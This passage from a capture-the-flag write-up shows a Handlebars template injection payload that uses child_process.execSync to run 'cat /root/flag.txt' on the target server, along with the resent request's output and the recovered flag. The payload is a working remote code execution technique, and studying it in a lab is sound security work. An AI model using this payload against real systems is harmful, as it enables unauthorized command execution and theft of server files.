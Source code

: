 
#### Flag

> 6b258d726d287462d60c103d0142a81c

We just adjust our above javascript code to execute the command `cat /root/flag.txt`, re-encode the URL with our altered code, and re-send the HTTP Request using BurpSuite.

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

The website displays the flag:

```
We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            6b258d726d287462d60c103d0142a81c

```

---